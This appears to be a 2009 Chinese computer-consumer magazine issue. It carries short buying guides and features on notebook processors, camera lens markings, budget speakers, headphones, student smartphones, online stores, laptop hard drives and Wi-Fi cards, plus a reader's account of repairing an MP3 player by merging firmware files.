很多消费者都熟悉了厂商的宣传策略，不宣传的不一定不好，但宣传的未必有它所说的那么强。当一个品牌，一款产品在用户之间口口相传，而未见厂商大张旗鼓的去标榜什么，那么这个品牌与产品是成功的。时至今日，漫步者的耳机产品线基本成型，K系列通讯产品，M系列时尚产品，H系列高保真产品，每个系列针对的用户群非常明显，不乏令人心动的精品出现，如H260、K303等。在年初中标的K3000耳机虽然是强化了麦克风拾音效果，少了常规耳麦的一些应用，但不可否认它的质量与性能表现。

“技术进步意味着新的机会，但技术的价值是通过科学合理的应用才能得以体现。漫步者的产品正是用‘以人为本’的精神展现出技术进步所带来的实用性提升，并通过使用来感受科技魅力，而非单纯以功能的堆砌来炫耀所谓先进技术。”这样的话不是没有道理。

最后一代迅驰 最长命的选择？

迅驰平台自诞生就被认为是笔记本性能的象征，很多用户都以拥有“迅驰”而自豪，然而谁料想下一代移动平台，Intel将取消迅驰3的命名。多年来纷繁的结构以及规格信息的混乱，使得“迅驰”已不能承载起新旧平台差异的界定，可以说目前的“迅驰二代”算得上是末代皇帝。

现在笔记本纷纷降价，买一个本本已不是什么难事，这是否意味着“迅驰”的价值会有所缩水，在这段过渡时期对这最后一代迅驰的选择，用户该何去何从？知己知彼，方可百战不殆，只有了解Intel最新移动处理器的情况，才能知道该如何购买，英特尔移动处理器从纵向系列来看，赛扬属于基本入门，奔腾双核要好一些，酷睿二代是主打。而各系列在横向上则是以字母加1000到9000系列来命名，同构架下数字越大象征着性能越强。

| 处理器名称 | 主频     | 二级缓存 | 制造工艺 |
|------------|----------|----------|----------|
| 酷睿2 T6600 | 2.20 GHz | 2MB      | 45纳米   |
| 酷睿2 T6570 | 2.10 GHz | 2MB      | 45纳米   |
| 酷睿2 T6500 | 2.10 GHz | 2MB      | 45纳米   |
| 酷睿2 T6400 | 2.00 GHz | 2MB      | 45纳米   |
| 酷睿2 T5900 | 2.20 GHz | 2MB      | 65纳米   |
| 酷睿2 T5800 | 2.00 GHz | 2MB      | 65纳米   |
| 酷睿2 T5860 | 2.16 GHz | 2MB      | 65纳米   |
| 酷睿2 T5870 | 2.00 GHz | 2MB      | 65纳米   |

对于很多消费者而言，买本几乎就等于买处理器，毕竟目前Intel迅驰平台占据了绝大部分市场空间，但是，很多人并不知道究竟该如何挑选这最后一代迅驰本本。其实，从产品规格上，你就能轻易找到属于自己，适合自己的产品。

表中的处理器都是当前主推性价比机型产品最普遍采用的型号，这些产品的价格一般不会超过6000元，应该说是处于主流价位的机型；而表2中的处理器，多集中在高端产品上，比如说像是专用的商务机型啦，12寸的超小产品之类的，价格多在6000元~9000元乃至更多。有人说一分钱一分货，贵自然会有贵的道理，实际上，现在处理器间的性能差距并不能有具体表现，比如说在玩游戏的时候，快5FPS与慢5FPS你几乎感觉不到，而真正能利用到高性能处理器特性的应用又多限于专业领域。再则，很多采用表2中处理器的产品在机身设计（强度）、商用性上，也让成本上升不少。所以，一般消费者真没必要追求这些。

当然了，并非说配备表2中处理器的产品就没什么性价比优势，相反，这类机型的共同特点是全寿命比较长——通常都能工作6年甚至更久的时间，而不是像普通本本，用个3、5年也就差不多该换了（不是性能不够，而是外壳、内部配件老化等）。

认清标识 选对相机

前段时间朋友买个相机，但是怎么用怎么不顺手，要长焦没长焦要微距没微距，价格死贵死贵不说，希望有的功能它都没有，整一个被经销商忽悠出来的产物，这样的情形在现今非常普遍，很多消费者在不知道自己的需求时，便盲从地去选择产品，最终受到愚弄，面对这样的情形，该如何选择相机产品呢？

学会认清参数标识

无论是数码相机还是胶片相机，在机身上都会标注着主要性能参数，如图1所示，佳能980IS相机镜头上会有着这样一系列的标识：

```
Canon Zoom Lens
3.7X IS
7.7-28.5mm
1: 2.8-5.8
```

它们都代表的是什么呢？

它来告诉你谁是它的生父
首先：Canon代表着镜头制造商，也就是说仅在镜头边缘上看到这样的标注就可以确定该相机的镜头是采用佳能或佳能授权镜头产品，了解此处也就不会再奇怪为什么在松下的相机上会出现“LEICA”（徕卡，高端相机镜头和机身制造商）这个品牌字样了。Zoom Lens直接翻译过来是变焦镜头的意思，这个不难理解。

何德何能

3.7X和IS的字样比较好说明，表明了该镜头具有3.7倍的光学变焦与光学防抖功能。不要乱听别人说

望多远 见多近

7.7-28.5mm代表的镜头的焦距，这里指的是实际焦距，而人们习惯的还是135相机的等效焦距（等效焦距会在说明书明确说明），通过相机的CCD尺寸与传统135胶片相机的大小比例，可以换算出数码相机的等效焦距[等效焦距的计算公式是：换算系数=43.27（35mm胶片相机的对角线尺寸）/数码相机CCD的有效对角线尺寸]。用镜头上标示的实际焦距乘以前面得出的结果即可，但因现在消费级数码相机的CCD尺寸并没有统一标准，不同尺寸产品的CCD也有着很大的差别，并不像单反相机那样容易计算，所以呢，这一点了解就好。只要在购机之前，多看一些资料，上面都会有着实际焦距和等效焦距等参数，它所覆盖的范围也就一目了然了，下文还会对此具体说明。

小知识：何谓135相机？

135相机指的是35mm相机，它的名称是由底片对角线长度为35mm得来的。为了统一胶片相机的标准，柯达公司制定了1XX的名称，用以区分采用不同底片的相机，便有了老式的110、120、135相机，又因135相机最为普及，数码相机上的焦距等参数都会依据135相机进行换算。

敞不敞亮就看我

1:2.8-5.8是光圈大小，大光圈在弱光情况下有提升快门的优势，而小光圈则可以表现出更大的景深，各有各的好处。镜头上表示的是在广角端（最小焦距）的最大光圈和长焦端（最大焦距）的最大光圈值，简单说就是在7.7mm下可以用到的最大光圈是2.8，但在28.5mm这个范围内只能使用5.8这个光圈了。

小知识：

光圈是一个用来控制光线透过镜头，进入机身内感光面光量的装置，它通常是在镜头内。表达光圈大小一般采用f值。光圈f值=镜头的焦距/镜头口径的直径，完整的光圈值系列如下：f1、f1.4、f2、f2.8、f4、f5.6、f8、f11、f16、f22、f32、f44、f64。要说明的是光圈f值越小，在同一单位时间内的进光量便越多，且上一级的进光量是下一级的两倍，例如光圈从f5.6调整到f4，进光量便多一倍，也就是常说的光圈开大了一级。对于消费型数码相机而言，光圈f值常常介于f2.8与f11之间，许多数码相机在调整光圈时，是可以做1/3级的调整。

认清标识 选对产品

好了，熟悉了镜头上生涩的各种标识，现在来说一下如何根据使用需求选择产品。如果是准备将相机用来拍摄风景，那么广角端很重要；拍摄微距和远处景物，则长焦端的数字需要大一些。光学防抖可以有效的提升快门速度，这样在光线不足和抓拍高速移动的物体时，性能表现相当不错。光圈呢，在之前的文章中曾介绍过，它与快门速度是反比关系，大光圈配合光学防抖在夜晚可保持手持状态不出现抖动，对被摄物体也能有着很好的把握。至于镜头生产厂不必多虑，在卡片机上即便是由知名厂商生产的镜头，限于CCD尺寸等因素，个体差异也不会太大。

为60华诞献礼 超低价2.1多媒体音箱大搜罗

在祖国60华诞的前夕，2.1多媒体音箱也在为换季促销做着准备，各厂商都拿出了看家本领，无论新品宣传还是老品包装，都可看出厂商对这个市场的重视和学生购机对销售额的影响。那么现在具有较高性价比的2.1音箱有哪些呢？

新品不新价——奋达 S320

奋达S320是近期上市的一款中低端新品，整体采用木质箱体设计，输出功率21W，虽然是新品，却不是新价，整套产品市场报价为98元，特别适合手头不太宽裕的学生朋友们使用。作为学生，平时最多的是看看电影、听听流行音乐或是玩玩游戏。在音频方面，由于该款音箱采用了4英寸低音单元+2.0英寸高音单元的组合方案，人声和高音听起来较为不错，但低频下潜稍有不足。S320应用在看电影及平时听音乐时性价比高，但在欣赏一些摇滚类音乐时，可能会给那些追求震撼效果的朋友们留下些许遗憾。

升级未升价——金河田 G3 加强版

这款音箱也是音箱市场中价位较低的产品，市场报价在168元附近，从淘宝网购买可以以100元左右拿下，是适合低端消费群体的一款音箱产品。在试用过程中，这款音箱的高音部分表现较好，相比之下，低音部分表现欠佳，在外形设计方面，缺少一些时尚感，可以说是一款中规中矩的产品。

低端消费群体的普及型产品——麦博 M-100

市场报价99元的麦博M-100，如果从淘宝购买最低可以以60元左右入手。该款音箱整体看上去比较美观，大方，主箱采用木质设计，卫星音箱则采用时尚性更强的塑料箱体设计。在很多低价位音箱上并没有提供的低音增益旋钮在该款产品中却添加了，可以让用户按照自己的口味调节低音输出效果。音质表现上，在同价位音箱中表现比较出色。总体来说，如果正处于囊中羞涩阶段，这款音箱可以重点考虑。

降价不降质——三诺 H-211 增强版

三诺H-211增强版已上市一年多了，从当初上市时的230元左右的价格降到如今130元，与一些低档音箱价格相当，学生族很容易接受。而在功能方面，它却毫不示弱，不仅有华丽的外表（“π”形镜面高光工艺面板装饰，旋钮在工作时有蓝色光圈作为点缀），还有独特的特色低频支持，这主要受益于三诺H-211增强版采用5英寸泡沫边仿铝COATING复合纸盆，AVS长音圈，平时喜欢听重低音的乐迷朋友足可以享受一把。此外，该款音箱的卫星箱底部添加了防滑垫，可以避免音箱在电脑桌上因为防滑性能不强而存在的安全隐患，这对我等粗心人来说，绝对是个人性化的设计。该款音箱虽然公开报价仍停留在200元，但在淘宝网的，最低价格却实为130元，适合追求效果的玩家选购。

低端产品中的“高档”货——漫步者 R201T 08 版

如果你嫌前面几款音箱太过于低端，那么这款漫步者R201T 08版产品可以让你在享受低端产品低廉价格的同时又可以享受到高端产品带来的音质震撼。该款音箱采用了5英寸的低音单元，低频强劲有力。在播放摇滚类歌曲时听起来很舒服。中音单元采用2.75英寸全频单元，漫步者在老型号扬声器的基础上，改进了振膜了和磁路设计，让中频变得更为饱满，耐听度大为提高。总体说来，这款音箱确实是低端产品中的“高档”货。而该产品的市场报价在180元左右，在淘宝网更可以以100元左右拿下，应该属低端产品中的首选。

老古董新生命 小记固件刷新的若干问题

几天前客户拿来一个联想MP3让我帮忙修（型号是F310，老古董了），出现的故障是开机显示ERROR Format Media，连接电脑后不能格式化与读盘，提示为I/O出故障，明显就是固件出了问题。随后我便去网络上搜寻固件，几个小时都没有找到，只发现了联想F312的固件（下载地址为：http://driver.download.www.ea3w.com/link/4/37803.shtml），抱着死马当活马医的想法，把F312的固件刷到F310上试试，结果固件程序没反应，无法识别出硬件。

看来软的不行就来硬的吧！拆开MP3，看到它的主控是SigmaTel的stmp3410，便又从网络上下载了一个stmp3410的通用固件下载地址为：http://www.elecfans.com/soft/softdown.asp?softid=1610），开始第二次尝试刷机，这一次固件程序非常顺利地刷了进去，并且在连接电脑后，MP3所属的盘符可以打开浏览，也可以进行格式化等操作，我想看来是成功了！急忙把MP3拔下来，结果却无法开机运行。

没辙，继续想办法吧。根据已有的情况来分析，既然stmp3410的通用固件能刷上MP3却无法启动，那就说明通用固件中的某些程序与MP3的原程序有所不同。那么把联想F312固件移植到stmp3410中覆盖固件中的某些文件是否可行呢？

经过观察发现F312的固件和stmp3410的通用固件有四个文件名一样，分别是bootmanager.sb、resource.bin、stmpsys.sb、UsbMsc.sb，我把F312的这四个文件复制到stmp3410的通用固件文件下覆盖通用固件，随后刷机也验证了笔者的想法，双固件相互融合，解决了联想F310的问题，不仅可以在电脑中识别出来，还可以播放且按键均正常。

撰写此文的初衷是发表一下自己遇到问题的解决办法，后来想想，很多老产品软件部分已经有所缺失，而公版程序的某些部分无法完全解决一些遇到的问题，那么我们可以开阔下思维，对芯片通用固件稍作改造，适应不同的产品，希望本文使用的方法能对大家有所启发，也算是抛砖引玉了。

(山东/齐冰冰)## Quiet进中国安静不下来

一次与音乐发烧友的聚会上，记者见到了来自音乐世家的意大利知名品牌AUDIO 4 & C. Srl公司总裁Manrico和三诺科技总经理辛利军。本着取长补短，共同营造个性化音乐体验的目的，三诺科技欲将AUDIO 4 & C. Srl公司旗下QUIET品牌带进中国。QUIET的中文语意是“静”，但这次的合作注定让国内音响市场格局发生变化，值得肯定的是Quiet的引进使国内的多媒体音箱市场静不下来。

QUIET品牌正是此次三诺科技引进的对象。从18岁，Manrico和孪生兄弟手工打造的第一对实木音箱开始，他与音乐的传播工作结下了不解之缘。道理上，他也算是一个将爱好和工作结合起来的人。他言行举止非常绅士，作为聚会现场唯一一名来自意大利的外宾，他丝毫没有紧张情绪与大家分享自己一生对音乐的解读。记者注意到，Manrico谈音乐和人生用了46分钟的时间，而谈推广音箱产品仅用了4分钟不到。“QUIET意味着放松心境，这是一种欣赏音乐的态度。这也是QUIET品牌的精神所在。”

2009年8月18日QUIET品牌正式进入中国，何日新相当于该品牌在华代表，而辛利军则全面接手市场推广工作。

## 打破常规，制定“发烧友+推手”的游戏规则

何日新，一个地地道道的意大利美声唱法爱好者，以一曲《我的太阳》几乎震撼了所有的聚会参与者。他这次的真实身份是QUIET品牌中国推广机构深圳爱特康科技有限公司总经理。作为一个资深的音乐发烧友，何日新选择了与他的爱好最为匹配的工作。对于工作与爱好的关系，他对记者说：“两者能够融合是最理想的，不过现在也有很多电脑爱好者，也非常喜欢数字音乐，却无法找到符合自己身份和品位的听音产品，现在的都市节奏太快了，他们欣赏音乐同样是追求着一种心灵的宁静。”

### Manrico Casagrande
意大利人，出生于音乐世家，现在的身份是AUDIO 4 & C. Srl公司总经理。他的公司旗下的

## 辛利军

三诺科技总经理。他和他的团队在4年～5年的时间里，成功地重塑了三诺音箱的品牌形象，并强势打造了独立功放多媒体音箱产品。在深圳工厂文化为先导的IT圈子里，辛利军素有营销高手的美称。与何日新和Manrico不同的是，他并不是一个HIFI文化的崇尚者，更不是一个音乐发烧友，甚至某些场合下，他也会承认自己对音乐并不偏爱。但正是一个对音箱并不发烧的人，使得国内多媒体音箱市场在沉寂多年之后，终于出现了新的增长点。这次，他极力引进QUIET品牌，有着他自己的判断：“根据我们的分析，用户中存在一群喜欢音乐，品味人生，却不想成为发烧器材的音乐爱好者。两年前，我第一次见到Manrico时，他承认即使在音乐文化浸润很深的欧洲，上述群体也是存在的，但他拒绝与我合作。”

## 珠联璧合，谁说三诺不想做老大？

辛利军是业内知名的营销高手。他起初对于音乐的理解并不能使合作方Manrico满意。从“拒绝”合作到“同意”共同开发市场，这个过程中的妥协也许能从辛利军的措辞上看出一些端倪，他说：“Manrico显然不会同意让我们用他的品牌做自己的产品。换做现在，我也不会去用他的品牌了，因为三诺要制造QUIET品牌同品质的产品并非易事。”

从“拒绝”到“同意”的两年时间里，三诺也并不是毫无动作。细心的读者会发现，2008年开始，三诺极力打造“PC-HiFi”的概念，并两次成功运作摩机大赛，其目的就是为了开拓一个全新的市场，找到适合QUIET这样能够提供个性化服务的品牌的目标用户。

众所周知的100元～300元的主流多媒体音箱市场也是“兵家必争之地”。三诺在2004年重返该市场后的5年内成功晋级三甲实属不易。随着用户对于音乐体验的升级和用户生活方式的变化，中高端音箱市场将逐渐扩大到20%甚至更大的市场份额。辛利军坦言，“三诺不可能占领这个市场，或者说‘三诺’这个品牌能够占领其余的80%的市场份额就够了。”不仅如此，他更希望用QUIET品牌去直逼那利润最丰厚，用户最有价值的20%的中高端市场。

（本刊记者/张健 实习生/张博）

## 带你去逛网上旗舰店

还记得以前买本，大家的口径一致是“去村里转转”，随后就开始全心投入一场长期的战斗。在接过了“缺机转型”、“移花接木”、“免票降价”等等招数后，一个本本称心如意的总算呱呱坠地。厌倦了市场的喧嚣与吵闹，网上购本开始流行开来。在一阵的红火之后，伴随着上当与欺诈，虚拟实物的弊端凸显。一些用户开始感叹，买个质优价廉的本真的有这么的难？

在现实购买与网购之间，前者真实但成本较贵，后者廉价但虚拟不实在，有没有两者都兼顾的购买方式？答案是有的，那就是网上旗舰店，也就是笔记本厂商的网上购物商城。虽然也属于网购的模式，但是有了厂商的支持，用户不必再害怕购买到假货等情况的发生。除此之外，由于厂商的定位不同，其商城也各具特点，用户可以结合市场行情与自身的需求去选择。

明基商城的特点是价格便宜，直观可见，性价比十足。一款明基S42-LC19商城报价5599元，而实际卖场需要6300元才能买到。不过并不是市面上所有的型号商城都卖，那得看上架情况，是其一大不足之处。所以一旦出现适合自己的机型，那可要早早出手。

联想商城给人的感觉是客户群分类清晰，价格上优势不明显，但购机所得的赠品可是超值，尤其是不定时段的学生机特惠专区活动。联想目前的ideapad U350-STW这款学生机商城报价4899元，而卖场报价4500元（未税），普通购物网站（京东）报价4699元，看起来貌似京东的价格最实惠。然而联想商城购机的同时还获赠价值499元的联想NBA电脑背包（含内胆包）、价值98元的联想闪存盘T110以及价值899元的联想手机S600，真可谓是一机多得。办理学生机优惠购机也相当简易，只需学生证即可，非常适合学生用户群体。

当然，网上购买也不是百分之百完美，毕竟网购只是一种途径。比如有些网购商店，购买之后物流的速度就要慢许多，远远不及卖场直接购买方便、快捷。

此外，也并非所有产品在官方网站上购买就绝对便宜，划算。有时候，部分产品在经销商的网上商店购买，反而便宜，而且发货速度也较快。比如Acer、华硕、Gateway以及东芝等，非官方直营的网购笔记本品牌，就可以在淘宝商城中找相关的代理商购买。

## 推荐网购 PC

- 戴尔 http://www.dell.com.cn/go
  推荐理由：配置自选，还有网购特惠价
- 联想 http://appserver.lenovo.com.cn/shop/index.aspx
  推荐理由：免息分期付款
- 明基 http://shop.benq.com.cn
  推荐理由：价格非常实惠，有时候官方也会出售二手产品，价格更是超低
- 华硕 http://shop58422576.taobao.com/
  推荐理由：CFan大卖家成员，产品价格不一定最低，但服务绝对没得说

## 笔记本硬盘5400rpm 500GB还是7200rpm 320GB？

慢、慢……笔记本到底和PC差在哪里，CPU、内存、显卡发展得相当不错，原来是硬盘的性能始终在拖后腿，于是乎一些用户就动了将自己5400RPM硬盘更换成7200RPM的念头。这到底行得通吗？

众所周知，7200RPM高速硬盘产品专属于高性能和准工作站型笔记本。虽然感性认识使我们觉得越快越好，但仍需要理性认识的测试检验，让我们将同样是容量为250GB的5400RPM产品和7200RPM产品进行对比。

HDTune Pro的测试中，250GB 7200RPM笔记本硬盘的平均读取速度达到78.4MB/s，较250GB 5400RPM笔记本硬盘的45.7MB/s有了不少的提升。PCMark05的得分250GB 5400RPM笔记本硬盘为4900多，而250GB 7200RPM笔记本硬盘达到了5750，提升了近20%。并且硬盘温度并没有明显的上升，和5400RPM产品基本相当。

这样看来普通本本也能换成高速的7200RPM硬盘了？其实不然。尽管性能和温度的表现非常不错，但是由于转速提高，震动明显比5400RPM产品增大不少——这也是为什么高转速笔记本电脑硬盘迟迟不能普及的根本原因！显然，并不是所有的笔记本都能装配7200RPM高速硬盘。一般的产品还是使用5400RPM 500GB这样单碟大的硬盘合适。况且，从性价比的角度来看，同容量下将近50%的差价，获得20%的性能提升，显然不划算。

## 本本联网兼容问题不可忽略

小张刚刚毕业上班，新租的房子是老式楼房，根本就没有网线，于是想购买一款价格低廉的无线路由器，这样使用起来也会方便不少，关键是，以后带走也非常方便。

不过，小张搜索论坛发现一个大问题，自己本本用的是迅驰平台，无线网卡为Intel 5100AGN，网上很多网友都反映这个无线网卡兼容性不佳，如果用802.11n的技术规格，连上很多路由器都只能到78Mbps！

原来，Intel虽然拥有大量无线网卡用户，但其一直在路由器端没有发言权，多款Intel无线网卡的兼容性都非常差。目前三大路由器芯片制造商分别是博通、Marvell、Atheros。其中，Atheros的路由器速度最快，但兼容性最差，以D-Link DIR615为代表，价格在150元～200元；而Marvell则表现中庸，特点是产品价格相对便宜，但信号强度一般，以腾达W168R等产品为主，价格在100余元；博通即broadcom，当前无线网卡兼容性最好，但价格也最贵，而且目前极少有产品采用。

面对这样的情况，小张最终决定更换无线网卡为Atheros 5418（价格在100元～120元）或Intel 5300（78元～100元）之间的一个。考虑到自己的迅驰平台完整性，最终小张选择了后者。Intel 5300的兼容性较之前要提高不少，即便在水火不容的Atheros芯片无线路由器上，也能以最高速度连接呢。

## 大逃亡？卖场撤柜未必是坏事

“我买的本本出了故障，结果一去卖场，商家都撤走了，这回只能自己跑厂商送修了，麻烦啊！而且看了看卖场内，平均每走几步就有一家柜台撤走的情况，现在卖场是不是不行了？”
“LZ网上买吧，有发票也贵不了100元~200元钱，而且还不用被拉客的骚扰，自己也不跑路。”
记者日前也走进了卖场，发现不少规模较小的商家因租期到了，纷纷作出撤柜的决定，难道卖场真的萧条了？

## 生意经如此难念

我们分别采访了几位商家，通过交谈我们发现了一些不同以往的有趣事情。经销商A是一位在卖场中游走了近10年的老商家，口碑一直不错，但限于自身的经济实力，店面一直没能发展起来，现在，他也开始琢磨着是不是要转型了。A表示，以往看着楼上那些卖配件的每天挣个块八毛感觉很辛苦，都是靠一些小单位、小网吧攒机维持生计。2006年左右，A的一位朋友开始在淘宝网上开店，经过初期的坚持现在也算小有成绩，销量已经大于卖场中的出货量了。但是，这位朋友依旧不肯撤掉柜台，告之有实体店面还是很能够吸引客户，给人的感觉不像是游商小贩，出了问题有保障。对此，A先生也曾考虑过网上开店，但无奈自己卖的笔记本总价较高，很少有人购买。最近一年多的时间，像京东这样的网上商城迅速崛起，也让A先生举步维艰，甚至开始考虑是否离开这个行当，另谋生计了。

不过，A先生最终决定还是留下来，因为他发现，很多客户在购买大件产品的时候，还是需要到实体店看看，未必价格能有多低，但良好的口碑也聚集了一些稳定的单位客户。A先生说：“我也经常关注这些个网上商城，价格确实比我们要低，要知道他们的成本相比我们还是低很多的。现在，我多是在一些知名的论坛混迹，多回答网友的问题，这样也能拉来一些客户，不过生意真是难做多了。”

## 贴心服务才是根本

我们又通过A先生找到了一位他的客户B先生采访，B先生表示，其实自己最开始的目标就是去这些大品牌建立的专卖店看看，最终购买想是去京东的。后来因为一些问题在论坛发问，A先生耐心的解答让B先生产生了信任感，特地跑回卖场从A先生处购机。A先生说，网购的好处显而易见，方便、快捷，但这毕竟只是手段而已，不是目的——很多网上的商家、商城有时候也不能做到尽善尽美，一点儿也不比卖场拉客和转型等遭遇差。
其实，不难看出，价格是一个不可忽略的因素，而信誉则是更为重要的先决条件。这也是为什么《电脑爱好者》推出CFan大卖家的决定。良好的信誉机制，让网络卖家有了一个新的销售机会，而作为消费者，则有了一个购物贴心、买起来放心的方式。

走出卖场，我们又在该地区搜罗了一遍，发现专卖店、展示厅远比以往多。尤其是PC厂商，刻意高调的专卖店要么是气势恢宏，要么是旗舰专业，总之，展示的意味远大于销售。而这些PC厂商又无一例外地开展了网上购机的服务，甚至包含免息分期付款等方式。显然，展厅看机+网购这种新的购物方式，正在悄然兴起(如http://www.lenovo.com.cn, http://shop.benq.com.cn等)。

## 展厅看机 + 网购？

其实，现实中的情况早在规划之中，2009年7月的一则新闻：“公布的《北京市海淀区人民政府关于加快推进中关村西区业态调整的通告》指出，未来中关村西区的功能定位是以技术创新和科技金融服务为重点，聚集高端人才服务、中介服务和政府公共服务。”中关村西区规划占地95公顷，公共建筑（写字楼）规模约250万平方米，基本上覆盖了中关村20年前的发源地——“电子一条街”地区。显然，卖场已经不再辉煌，时代的发展形成了自然的淘汰法则，这未尝不是件好事。

## 不可逆转的时代之变迁

(文/本刊记者 西浩铭)

## 新学期 学生平民智能手机选购

不论年龄大小、学历高低，很多朋友都是手机玩家，在这些玩家队伍中，学生朋友们的水平往往是最高的，他们对固有功能的手机不屑一顾，而对那些可拓展新功能的手机比较感兴趣，智能手机便是首选，可以通过另外安装软件来拓展手机的新功能。
据了解，在校学生家庭条件不同，较富裕的一般都会直接购买高端智能手机，甚至像iPhone这类比较高级的“奢侈品”，而经济条件差些但对智能手机也有追求的学生朋友一般都瞄准了山寨版手机，因地域、学校实力和周边人群的影响，同一地区的各所高校，手机价位的分布也非常混乱，但也主要集中在1000元~2500元间，当然，也有一些学生朋友可能会瞄准价格更低廉的机型。

### 资金有限的学生用户群

对智能机需求欲望较强，但是腰包较干扁的学生朋友，推荐使用诺基亚N78及N79这两款手机。这两款手机其实是诺基亚N73的两个升级版本，其中N78因价格更低廉而占有市场优势，正规行货市场报价在1600左右，水货版大概在1400元左右。而N79价格则稍微高些，行货报价在2200元左右，水货版则在1900元左右。撒开价格不论，N79在配置上比前者丰富一些，例如采用500万像素的摄像头，支持重力感应功能等。相差五、六百元的价格，学生朋友们在选用时就有了一个较大的选择空间。除此之外，如果控制价格在1000元之内的话，诺基亚6124c这款非常适合，欧版水货价格在900元附近；使用的也是S60第三版操作系统，200万像素摄像头，支持多种格式的视频、音频，性价比上绝对达标，若选择在淘宝网购买，700元就能拿下，超值。

### 支付力尚可的学生朋友

假如家境和自身具有一定的支付能力，推荐选用诺基亚N85这款滑盖手机。该款报价在2800元左右，而水货版大概在2400元左右，高价格当然有好功能相匹配，该款机主要定位为移动娱乐、游戏及分享，可通过FM调频信号发射器进行无线播放音乐，提供了500万像素卡尔蔡司光学镜头，拍照效果相当好。而对于这群支付力尚可的朋友，多普达智能手机也是相当不错的选择，如多普达S1、Diamond都是较为流行的机型，多普达的口碑大家也有目共睹，毕竟这类办公智能手机功能强大，且不会很快被淘汰。对于那些“追新”一族来说，除了那些经典智能机外，像诺基亚刚推出不久的诺基亚5530，价格不到2000元，使用时下流行的触控功能按键，而其使用的是S60最新的第五版操作系统，保留WAPI网络功能也是该款机的一大亮点所在。
旋转90度屏幕设计，500万像素自动对焦摄像头，超大屏幕，内置GPS导航并提供查询公交、地图等服务。

### 喜欢可爱机型的学生 MM

在学生消费群体中，女生又是比较特别的一个群体，她们多半对手机功能的要求不及对外在形状追求的热度，像三星、索爱这些机型，花样多的品牌，而既追求外表又注重内含，像索爱W958c就是一款不错的智能手机，报价在1300元左右。三星i458也是一款不错的女性智能手机，使用Symbian OS 9.2操作系统，对音乐方面支持也相当完美。
同时，夏普91XX（9120、9130）系列也是刚上市不久的手机，不过，其在价格方面更苛刻些，当前报价都在2000以上，倒是MM们不错的选择这手机可以

### 浮想联翩：是否会推出专用的学生智能机

现在手机厂商一般都会主动与通讯商联手推出定制版手机，例如与中国联通合作的iPhone最近就要登陆国内市场。到目前为止，还没有哪一家手机厂商推出针对学生专用的智能手机，这是这个尚未开发的市场，也是利润空间不小的空间。假如有这样的学生智能手机，像现在流行的智能学习机那样，可以把一些课程直接放入手机中，拥有一部手机就可以省下购买学习机的钱该多好。在这点上，某些山寨手机似乎已经嗅到了苗头，不得不佩服它们敏锐的嗅觉和市场前瞻性。

(文/睿德)

## 弹不断的琴弦 一拉就断的耳机线

“琴弦的韧性为什么那么好？乐手每天弹来弹去，就是不断……看咱那副耳机，用不了一年半载的就得换，简直和刻录盘一样，成了消耗品！”小张从口袋里掏出他的MP3，尽管已经用了三、四年，他依旧很是喜爱，唯一麻烦的事情就是这耳机总要更换。

## 选好耳机的关键

通过请教漫步者的工程师我们了解到，耳机的引线是耳机放大电路输出端与耳机音圈的连接线，优质耳机线常采用多支线芯的无氧铜（OFC）线，经过严格的绝缘和屏蔽处理，杜绝铜内杂质对信号传输的影响和外界杂波的干扰。耳机线的末端是插头，3.5mm插头用于便携设备，一般高保真耳机会提供插头转换器，保证耳机在各种设备上的使用。中高档耳机的插头是镀金的，这不是为了漂亮，主要是为了防止插头氧化影响声音。由于金光滑柔软，还可以提供尽量大的接触面积。低档耳机常采用镀镍插头，这样虽然也可以防止氧化，对声音却有一定的负面影响。

## 耳机如何挑选?

- 买耳机强烈不建议选择封闭式耳塞，这类产品虽然低音效果出众，但对耳膜的损伤更大！
- 较好的耳机外观平滑，做工精细，手感极好，不应有那种采用劣质塑料的粗糙感
- 耳机引线的线径较粗，柔软不发硬，尤其冬天使用，韧性出色的耳机线十分必要！
- 插头要求规范工整无毛刺，镀层平滑均匀，并且试用时旋转耳机插头，看是否有杂音
- 不要迷信国外品牌，如飞利浦、森海塞尔以及苹果耳机，绝大多数都是仿造产品

其实，很多人都被廉价的耳机“培养”出错误的观念，认为耳机就是个消耗品，隔段时间就必须更换。
其实不然，一款好的耳机可以让人用上好几年，比如这款漫步者H200吧，要不是为了用来给大家讲解耳机的好坏，它还将继续为我服务呢！

## 大牌就是系列多 Gateway篇

Gateway这个品牌进入中国市场的时间并不长，但在美国却是第三大PC品牌，具有非常高的知名度。Gateway自从2007年进入中国市场以来，已经推出了多达8个产品系列，其中LT、NV、TC、UC四个系列机型最多，也最适合我们普通消费者。先来看看LT，LT系列具有非常好的便携性，重量非常轻，8.9英寸~11.6英寸的屏幕使它可以轻易放进挎包——就是我们常说的上网本。价格基本在三千元左右，对性能就不要有太高奢望了，当然平时上上网聊聊天什么的还是足够的。NV系列主要以14英寸和15.6英寸两大常见尺寸为主，由此也可以看出它的几个关键字：高性价比、性能强大、强调娱乐、功能丰富。在这个系列中可以看到几乎所有应用于笔记本电脑上的丰富功能，16:9规格的屏幕和HDMI接口能够带来跨时代的影音享受，堪称家庭娱乐的极致。对于需要在移动中进行工作的商务人士来说，UC系列应当是他们的首选，这个系列采用13.3英寸屏幕，拥有便携性与性能的最佳平衡点。同时高性能、大容量存储、无线连接以及超长的连续工作时间，也为整天脚不沾地的精英白领们提供了驰骋商界的最有力武器。14英寸的TC系列则是为走在时尚前沿的潮人们准备的，酒红色与深黑色的外观设计无论在哪个时代都不会过时，而NVIDIA 9300M GS显卡则保证在美观的同时还拥有出色的性能，保证我们徜徉于游戏或电影的世界中时不会因为“卡”而感到郁闷。同时这个系列还具有相对出色的便携性——包含电池的整机重量不过2.4kg而已，与任何一个品牌的同尺寸笔记本相比都不遑多让。

(文/Shangchi)

## 小改N78 GPS天线

